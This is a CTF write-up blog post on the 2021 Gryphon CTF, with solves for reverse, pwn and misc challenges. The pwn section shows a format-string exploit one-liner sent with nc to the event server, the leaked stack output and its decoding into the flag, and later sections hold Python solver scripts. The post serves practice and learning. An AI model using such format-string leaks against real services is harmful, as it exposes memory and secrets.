## Introduction

The 2021 Gryphon CTF, had over 45 challenges split into the categories of Web, Crypto, Forensics, Reverse, Pwn, and Misc! The challenge was held over the course of 48 hours, where many teams competed. My team managed to get 9th place. Credits to my teammates who solved some mind bending challenges.

The CTF website looks damn good, the challenges wasn't really very technical, regardless, it was very fun. It is also the ~~second~~ first time my team and I used [CTF Note](https://github.com/TFNS/CTFNote), a collaborative tool aiming to help CTF teams to organise their work. If you want to setup, you can follow my [guide](/ctfnote). I didn't really test out my guide so it might not work lol.



Anyway, enough introduction, let's get into the challenges. I was lazy to write some part, so bear with me lol, I will rewrite them next time.

### [Reverse] I am confusion

Solved by [@ReecL](https://github.com/ReecL)

Description: I found a computer with a running  program and a slip of paper next to it which reads:
65-90
['7', 'S', '3', 'Z', 'Q', '8', 'Z', 'S', '8', 'Z', 'F', '6', 'Z', 'S', '6', 'Z', 'F', '9', 'Z', 'Q', '7', 'Z', 'T', '8', 'Z', 'S']
The paper states that the answer is in capital letters. Maybe you know how to decipher it?

The program works by using converting plaintext into ascii before using mod.
We know that the program only has “Upper” case letters.
We also know that the only place a Number can occur is when a new letter is used due to line ltr.append(str(each)[-1]) that were used to get the last number of the ASCII.
After a number it appends letters based on the mods if else conditions.
Hence, we split the answer based on the information above.
Utilize python to test possible options and output answer.
Below is the code utilized.

```python
letter1=['7', 'S']	# M (Bruteforce to test how program works)
letter2=['3', 'Z', 'Q']	# ['\r', '\x17', '+', '5', 'I', 'S']
letter3=['8', 'Z','S']	# ['N']
letter4=['8', 'Z', 'F']	# ['D']
letter5=['6', 'Z', 'S']	# ['\x06', 'B']
letter6=['6', 'Z', 'F']	# ['L']
letter7=['9', 'Z', 'Q']	# ['\x13', '\x1d', ';', 'O', 'Y']
letter8=['7', 'Z', 'T']	# ['9', 'W']
letter9=['8', 'Z', 'S']	# ['N']

# ANSWER: M(IS)NDBL(OY)WN

def split(word):
    return [char for char in word]
plaintextascii=int(letter9[0]) #SWAP LETTER 9 WITH LETTER YOU WANT TO TEST THE PROGRAMME WITH
print(plaintextascii)
print("Starting run")
answers=[]
while(True):
	plaintext = chr(plaintextascii).upper()
	asc = [ord(c) for c in plaintext]
	ltr = []
	for each in asc:
		if each % 10 == 0:
			ltr.append(str(each)[-1])
			ltr.append("T")
		elif each % 9 == 0:
			ltr.append(str(each)[-1])
			ltr.append("N")
		elif each % 8 == 0:
			ltr.append(str(each)[-1])
			ltr.append("E")
		elif each % 7 == 0:
			ltr.append(str(each)[-1])
			ltr.append("S")
		elif each % 5 == 0:
			ltr.append(str(each)[-1])
			ltr.append("F")
		else:
			ltr.append(str(each)[-1])
			ltr.append("Z")
			if each % 6 == 0:
		    		ltr.append("S")
			elif each % 4 == 0:
		    		ltr.append("F")
			elif each % 3 == 0:
		    		ltr.append("T")
			elif each % 2 == 0:
		    		ltr.append("G")
			else:
		    		ltr.append("Q")
		print(plaintext)
		print(plaintextascii)

	if(ltr==letter9): # SWAP LETTER 9 to LETTER THAT U WANT TO TEST
		answers.append(plaintext)

	elif(plaintextascii>100):
		print("limit met")
		break
	plaintextascii=plaintextascii+10
print("Answers:")
print(answers)
print("for")
print(ltr)
```

<br/>

### [Reverse] 1s 1t m0rse? (Unsolved)

### [Reverse] Malware analysis (Unsolved)

### [Reverse] Calculator! (Unsolved)

### [Reverse] Suspicious email (Unsolved)

### [Reverse] Swinging password (Unsolved)

<br/>

### [Pwn] Marketplace (Unsolved)

Description: We recently launched a new marketplace. Can you obtain the key?
nc c1.2021.gryphonctf.com 9004

The challenge is actually a simple [format string vulnerability](https://owasp.org/www-community/attacks/Format_string_attack). You are able to leak out the flag in the stack by sending format string parameter like %x, %p. I forgot endianness exists, hence did not solve the challenge lol.

```bash
python -c 'print("A" * 32 + "%p "*512)' | nc c1.2021.gryphonctf.com 9004

What would you like to buy?
Successfully purchased the following:
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA0x7f059b90c723 (nil) 0x7f059b83bf33 0x26 0x7f059b90bbe0 0x7230667b46544347 0x5f366e693774346d 0x7230706d695f3569 0x3930335f376e3437 0x7d3637353434 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x4141414141414141 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x25207025207025 0x7ffdf71a8eb0 0xda4ff00ce91d3400 0x55d7cd5c8320 0x7f059b773d0a 0x7ffdf71a8eb8
```

Apparently, in data networking, network protocols like TCP, UPD, IPv4 and IPv6 are using Big endian order to transmit data. Since a computer usually store data in little endian format, you will need to convert values from big endian to little endian. You can use CyberChef swap endianess recipe, or use this website: [BIG ENDIAN⇔LITTLE ENDIAN CONVERTER](https://www.save-editor.com/tools/wse_hex.html).

Big Endian:
0x7230667b46544347 0x5f366e693774346d 0x7230706d695f3569 0x3930335f376e3437 0x7d3637353434

Little Endian:
0x474354467b663072 0x6d347437696e365f 0x69355f696d703072 0x37346e375f333039 0x34343537367d

After obtaining the hexadecimal digits in little endian, convert hex to ASCII and you will obtain the flag.

Flag: GCTF{f0rm4t7in6\_i5\_imp0r74n7\_30944576}

<br/>

### [Pwn] Sus village (Unsolved)

Will write this next time.

<br/>

### [Misc] A very white horse

Solved by [Gavebean](https://github.com/Gavebean)

Description: This is a completely normal white horse



We are provided with a image of a white horse, use [Forensically](https://29a.ch/photo-forensics/#level-sweep), a web-based set of tools for digital image forensics. By changing the contrast of certain brightness levels of the image provided, we can see some characters on the horse body.



```
.-. --- - ....- --...
# Morse Code decode: ROT47

vr%uL|_C$60w_#DbN
# ROT47 decode: GCTF{M0rSe_H0Rs3}
```

Flag: GCTF{M0rSe\_H0Rs3}

<br/>

### [Misc] Crypto is fun

Solved by [Gavebean](https://github.com/Gavebean)

Description: Who doesn’t love crypto

```
Flag=MiBBR0FJTiAxIENBTEwgMyBBUlQgMyBTT0ZBIHsgNCBCRUFDSCAzIE1PUkUgNSBIQVBQWSAzIEhBUFBZIDQgUEFOVFMgMiBQT1JSSURHRSAzIDUyMSAzIEJBU0UgMyBORUNLIDIgODA2IDIgQk9SSU5HIDEgTE9DSyB9
```

The flag is encoded with Base64, use the [Base64 CyberChef Recipe](https://gchq.github.io/CyberChef/#recipe=From_Base64(‘A-Za-z0-9%2B/%3D’,true)&input=TWlCQlIwRkpUaUF4SUVOQlRFd2dNeUJCVWxRZ015QlRUMFpCSUhzZ05DQkNSVUZEU0NBeklFMVBVa1VnTlNCSVFWQlFXU0F6SUVoQlVGQlpJRFFnVUVGT1ZGTWdNaUJRVDFKU1NVUkhSU0F6SURVeU1TQXpJRUpCVTBVZ015Qk9SVU5MSURJZ09EQTJJRElnUWs5U1NVNUhJREVnVEU5RFN5Qjk) to decode the message.

After decoding the message, we obtain the follow message below.

```
2 AGAIN 1 CALL 3 ART 3 SOFA { 4 BEACH 3 MORE 5 HAPPY 3 HAPPY 4 PANTS 2 PORRIDGE 3 521 3 BASE 3 NECK 2 806 2 BORING 1 LOCK }
```

By selecting position of letters of each word base on the numbers, we are able to group out the flag.

Flag: GCTF{CRYPTO1SC0OL}

<br/>

### [Misc] Head and toes

Description: What do these numbers mean? 01000111 01000011 01010100 01000110 01111011 00110001 01110011 01000001
http://c1.2021.gryphonctf.com:9002/

Hints: What is MSB and LSB?

The description provided what seems to be some binary digits, use a [Binary to ASCII CyberChef Recipe](https://gchq.github.io/CyberChef/#recipe=From_Binary('Space',8)&input=MDEwMDAxMTEgMDEwMDAwMTEgMDEwMTAxMDAgMDEwMDAxMTAgMDExMTEwMTEgMDAxMTAwMDEgMDExMTAwMTEgMDEwMDAwMDE) to decode the message. We obtain the first part of the flag.

```plaintext
GCTF{1sA
```

The next part of the flag was difficult, but with the help of the hint, the combination for the website was the most significant bit and least significant bit of each group binary digits.



Flag: GCTF{1sAnD0s}

<br/>

### [Misc] Ink and a pig?

Description: What do pigs and ink have in common? The answer is in the picture.



We were provided a image made up of strange symbols, use [Yandex Reverse Image Search](https://yandex.com/images/search?cbir_id=1608280%2FObVYn-uOo12CFyx7BvBKWw5598&pos=0&rpt=imageview&img_url=http%3A%2F%2Fhighschool.spsd.org%2Fcrypt%2Fpigex.jpg&cbir_page=similar&url=https%3A%2F%2Favatars.mds.yandex.net%2Fget-images-cbir%2F1608280%2FObVYn-uOo12CFyx7BvBKWw5598%2Forig&rlt_url=https%3A%2F%2Fpbs.twimg.com%2Fmedia%2FE0gVhVxXMAMfv7v.jpg&ogl_url=http%3A%2F%2Fhighschool.spsd.org%2Fcrypt%2Fpigex.jpg) and discovered the encoded message is PigPen cipher.


Decoded message: THEY BOTH GO IN A PEN

Flag: GCTF{THEY BOTH GO IN A PEN}

<br/>

### [Misc] Word search

Description: Amongst the flooded page, all will be revealed when you find it inside.
http://c1.2021.gryphonctf.com:9011/

The website provided had a lot of junk text, by examining the text carefully, you will be able to find a bit.ly link. You can also use [CyberChef Extract URLs recipe](https://gchq.github.io/CyberChef/#recipe=Extract_URLs(false)).



Link: https://bit.ly/3cUcg1q

The link directed us to a google drive image file. Downloading the file and running the file command reveal that the file was a JPEG image. The image seems to be corrupted even after changing the extension.

```bash
$ file Finance_Background2.png
Finance_Background2.png: JPEG image data, JFIF standard 1.01, resolution (DPI), density 8288x8288, segment length 8208, thumbnail 32x32

$ mv Finance_Background2.png Finance_Background2.jpeg
```

Next, view the strings of the image file, and found some interesting text that seem to be encoded in Base64. Decoding the message shows a long piece of text as seen in the figure below.

```bash
$ strings Finance_Background2.jpeg -n 12
%&'()*456789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
&'()*56789:CDEFGHIJSTUVWXYZcdefghijstuvwxyz
H       h4-- 'JCKM
J Z_z)7{P!OJm8c
dq05d6pEg6c~*
(RGFkZHkKYnkgU3lsdmlhIFBsYXRoCgpZb3UgZG8gbm90IGRvLCB5b3UgZG8gbm90IGRvCkFueSBtb3JlLCBibGFjayBzaG9lCkluIHdoaWNoIEkgaGF2ZSBsaXZlZCBsaWtlIGEgZm9vdApGb3IgdGhpcnR5IHllYXJzLCBwb29yIGFuZCB3aGl0ZSwKQmFyZWx5IGRhcmluZyB0byBicmVhdGhlIG9yIEFjaG9vLgoKRGFkZHksIEkgaGF2ZSBoYWQgdG8ga2lsbCB5b3UuCllvdSBkaWVkIGJlZm9yZSBJIGhhZCB0aW1l4oCUCk1hcmJsZS1oZWF2eSwgYSBiYWcgZnVsbCBvZiBHb2QsCkdoYXN0bHkgc3RhdHVlIHdpdGggb25lIGdyYXkgdG9lCkJpZyBhcyBhIEZyaXNjbyBzZWFsCgpBbmQgYSBoZWFkIGluIHRoZSBmcmVha2lzaCBBdGxhbnRpYwpXaGVyZSBpdCBwb3VycyBiZWFuIGdyZWVuIG92ZXIgYmx1ZQpJbiB0aGUgd2F0ZXJzIG9mZiB0aGUgYmVhdXRpZnVsIE5hdXNldC4KSSB1c2VkIHRvIHByYXkgdG8gcmVjb3ZlciB5b3UuCkFjaCwgZHUuCgpJbiB0aGUgR2VybWFuIHRvbmd1ZSwgaW4gdGhlIFBvbGlzaCB0b3duClNjcmFwZWQgZmxhdCBieSB0aGUgcm9sbGVyCk9mIHdhcnMsIHdhcnMsIHdhcnMuCkJ1dCB0aGUgbmFtZSBvZiB0aGUgdG93biBpcyBjb21tb24uCk15IFBvbGFjayBmcmllbmQKClNheXMgdGhlcmUgYXJlIGEgZG96ZW4gb3IgdHdvLgpTbyBJIG5ldmVyIGNvdWxkIHRlbGwgd2hlcmUgeW91ClB1dCB5b3VyIGZvb3QsIHlvdXIgcm9vdCwKSSBuZXZlciBjb3VsZCB0YWxrIHRvIHlvdS4KVGhlIHRvbmd1ZSBzdHVjayBpbiBteSBqYXcuCgpJdCBzdHVjayBpbiBhIGJhcmIgd2lyZSBzbmFyZS4KSWNoLCBpY2gsIGljaCwgaWNoLApJIGNvdWxkIGhhcmRseSBzcGVhay4KSSB0aG91Z2h0IGV2ZXJ5IEdlcm1hbiB3YXMgeW91LgpBbmQgdGhlIGxhbmd1YWdlIG9ic2NlbmUKCkFuIGVuZ2luZSwgYW4gZW5naW5lLApDaHVmZmluZyBtZSBvZmYgbGlrZSBhIEpldy4KQSBKZXcgdG8gRGFjaGF1LCBBdXNjaHdpdHosIEJlbHNlbi4KSSBiZWdhbiB0byB0YWxrIGxpa2UgYSBKZXcuCkkgdGhpbmsgSSBtYXkgd2VsbCBiZSBhIEpldy4KClRoZSBzbm93cyBvZiB0aGUgVHlyb2wsIHRoZSBjbGVhciBiZWVyIG9mIFZpZW5uYQpBcmUgbm90IHZlcnkgcHVyZSBvciB0cnVlLgpXaXRoIG15IGd5cHN5IGFuY2VzdHJlc3MgYW5kIG15IHdlaXJkIGx1Y2sKQW5kIG15IFRhcm9jIHBhY2sgYW5kIG15IFRhcm9jIHBhY2sKSSBtYXkgYmUgYSBiaXQgb2YgYSBKZXcuCgpJIGhhdmUgYWx3YXlzIGJlZW4gc2NhcmVkIG9mIHlvdSwKV2l0aCB5b3VyIEx1ZnR3YWZmZSwgeW91ciBnb2JibGVkeWdvby4KQW5kIHlvdXIgbmVhdCBtdXN0YWNoZQpBbmQgeW91ciBBcnlhbiBleWUsIGJyaWdodCBibHVlLgpQYW56ZXItbWFuLCBwYW56ZXItbWFuLCBPIFlvdeKAlAoKTm90IEdvZCBidXQgYSBzd2FzdGlrYQpTbyBibGFjayBubyBza3kgY291bGQgc3F1ZWFrIHRocm91Z2guCkV2ZXJ5IHdvbWFuIGFkb3JlcyBhIEZhc2Npc3QsClRoZSBib290IGluIHRoZSBmYWNlLCB0aGUgYnJ1dGUKQnJ1dGUgaGVhcnQgb2YgYSBicnV0ZSBsaWtlIHlvdS4KCllvdSBzdGFuZCBhdCB0aGUgYmxhY2tib2FyZCwgZGFkZHksCkluIHRoZSBwaWN0dXJlIEkgaGF2ZSBvZiB5b3UsCkEgY2xlZnQgaW4geW91ciBjaGluIGluc3RlYWQgb2YgeW91ciBmb290CkJ1dCBubyBsZXNzIGEgZGV2aWwgZm9yIHRoYXQsIG5vIG5vdApBbnkgbGVzcyB0aGUgYmxhY2sgbWFuIHdobwoKQml0IG15IHByZXR0eSByZWQgaGVhcnQgaW4gdHdvLgpJIHdhcyB0ZW4gd2hlbiB0aGV5IGJ1cmllZCB5b3UuCkF0IHR3ZW50eSBJIHRyaWVkIHRvIGRpZQpBbmQgZ2V0IGJhY2ssIGJhY2ssIGJhY2sgdG8geW91LgpJIHRob3VnaHQgZXZlbiB0aGUgYm9uZXMgd291bGQgZG8uCgpCdXQgdGhleSBwdWxsZWQgbWUgb3V0IG9mIHRoZSBzYWNrLApBbmQgdGhleSBzdHVjayBtZSB0b2dldGhlciB3aXRoIGdsdWUuCkdDVEZ7U3R1Q2sgVzN0aCB5M1d9CkFuZCB0aGVuIEkga25ldyB3aGF0IHRvIGRvLgpJIG1hZGUgYSBtb2RlbCBvZiB5b3UsCkEgbWFuIGluIGJsYWNrIHdpdGggYSBNZWlua2FtcGYgbG9vawoKQW5kIGEgbG92ZSBvZiB0aGUgcmFjayBhbmQgdGhlIHNjcmV3LgpBbmQgSSBzYWlkIEkgZG8sIEkgZG8uClNvIGRhZGR5LCBJJ20gZmluYWxseSB0aHJvdWdoLgpUaGUgYmxhY2sgdGVsZXBob25lJ3Mgb2ZmIGF0IHRoZSByb290LApUaGUgdm9pY2VzIGp1c3QgY2FuJ3Qgd29ybSB0aHJvdWdoLgoKSWYgSSd2ZSBraWxsZWQgb25lIG1hbiwgSSd2ZSBraWxsZWQgdHdv4oCUClRoZSB2YW1waXJlIHdobyBzYWlkIGhlIHdhcyB5b3UKQW5kIGRyYW5rIG15IGJsb29kIGZvciBhIHllYXIsClNldmVuIHllYXJzLCBpZiB5b3Ugd2FudCB0byBrbm93LgpEYWRkeSwgeW91IGNhbiBsaWUgYmFjayBub3cuCgpUaGVyZSdzIGEgc3Rha2UgaW4geW91ciBmYXQgYmxhY2sgaGVhcnQKQW5kIHRoZSB2aWxsYWdlcnMgbmV2ZXIgbGlrZWQgeW91LgpUaGV5IGFyZSBkYW5jaW5nIGFuZCBzdGFtcGluZyBvbiB5b3UuClRoZXkgYWx3YXlzIGtuZXcgaXQgd2FzIHlvdS4KRGFkZHksIGRhZGR5LCB5b3UgYmFzdGFyZCwgSSdtIHRocm91Z2gu)
```



Flag: GCTF{StuCk W3th y3W}

<br/>

### [Misc] Repeat, repeat

Solved by [@ethanlow](https://github.com/eatenlow)

Description: Why does the word "repeAting" keep repeatiNg??

We were given a text file as seen in the textbox below.

```plain
(repeatIng Repeating)
(repeaTing repeatIng)
(repeatiNg repEating)
(repeatIng repeating)
(Repeating rEpeating rePeating)
(repeatinG repeatIng)
(repeatIng Repeating)
(repeAting rEpeating)
(repeatIng rePeating)
(repeatIng repeatiNg)
(repeatinG repeAting)
(repeatIng repeatiNg)
(repeatinG repeAting)
(repeatinG repeatIng)
(repeatIng Repeating)
(repeaTing repeAting)
(rePeating rePeating)
(repeatIng repeatiNg)
(Repeating rEpeating repeAting)
```

We can then take the capitalized letter in each row to obtain this:
IR TI NE I REP GI IR AE IP IN GA IN GA GI IR TA PP IN REA

Converting those letters into numbers representing their position within their respective 'repeating' words, we get this:
71 67 84 70 123 97 71 52 73 78 95 78 95 97 71 65 33 78 125

We can then convert those numbers into ASCII characters to obtain the flag:


Flag: GCTF{aG4IN\_N\_aGA!N}

<br/>

### [Misc] Script kiddie

Description: Are you a script kiddie or a math god?
nc c1.2021.gryphonctf.com 9007

We were given a netcat command to connect to the server at port 9007. By connecting to it, the textbox below shows the data received back.

```bash
Welcome math god! You will be given several questions and you have 5 seconds to solve each question for the flag! Good Luck! :P
Solve: [73442465 DIVIDE 49951750]

> You ran out of time or faced an error! Exiting Program Now.
```

This is clearly a scripting challenge as there is a time limit to solve some mathematics questions within 5 seconds. We will use Python with PwnTools to achieve this task.

```python
#!/usr/bin/env python3

from pwn import *

host = "c1.2021.gryphonctf.com"
port = 9007

conn = remote(host, port)
print(conn.recvline())
# conn.send(b'\r\n')
challenge = conn.recvline().split(b" ")
print(challenge)

first_number = int(challenge[1].decode("utf-8")[1:])
operation = challenge[2].decode("utf-8")
second_number = int(challenge[3].decode("utf-8")[:-2])
result = 0

for i in range(50):
    if operation == "ADD":
        result = first_number + second_number
    elif operation == "SUBTRACT":
        result = first_number - second_number
    elif operation == "MULTIPLY":
        result = first_number * second_number
    elif operation == "DIVIDE":
        result = first_number / second_number
    else:
        print("unknown")
        break

    print(result)
    conn.send(str(result).encode())
    print(f"{conn.recvline()}")
    print(f"{conn.recvline()}")
    challenge = conn.recvline().split(b" ")
    print(challenge)
    try:
        first_number = int(challenge[1].decode("utf-8")[1:])
        operation = challenge[2].decode("utf-8")
        second_number = int(challenge[3].decode("utf-8")[:-2])
    except:
        pass

print(f"{conn.recvline()}")
```

Flag: GCTF{scr1pt1ng\_1s\_c00l}

<br/>

### [Misc] Script god

Description: You seem to know your way around scripts! Let’s try something different!
http://c1.2021.gryphonctf.com:9006/

This challenge seem to be the sibling of the previous scripting challenge, Script kiddie. This time, we were provided a website with the mathematics question as an image. Once again, we can use Python and PyTesseract to do some Optical character recognition (OCR) magic to solve the challenge.



This code below was inspired by https://blog.justins.in/cddc20/. I remember seeing this challenge in CDDC2020.

```python
import requests
from requests.structures import CaseInsensitiveDict
from bs4 import BeautifulSoup
from urllib.parse import urljoin
import subprocess
from PIL import Image
import pytesseract
import cv2
import numpy as np
import re
import json

only_slashes = re.compile("^S?\/+[^A-Za-z\+\-]*S?$")
HOST =  "http://c1.2021.gryphonctf.com:9006/"

s = requests.Session()

headers = CaseInsensitiveDict()
headers["Content-Type"] = "application/x-www-form-urlencoded"
r = s.get(HOST)

def resolve(soup, val, charset):
    src = soup.find("img").get("src")

    subprocess.Popen(["wget", urljoin(HOST, src), "-O", "out.png"], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL).wait()
    img = Image.open("out.png")

    new_size = tuple(2*x for x in img.size)
    img = img.resize(new_size, Image.ANTIALIAS)

    img.save("out.png")

    # Grayscale, Gaussian blur, Otsu's threshold
    image = cv2.imread('out.png')
    gray = cv2.cvtColor(image, cv2.COLOR_BGR2GRAY)
    blur = cv2.GaussianBlur(gray, (3,3), 0)
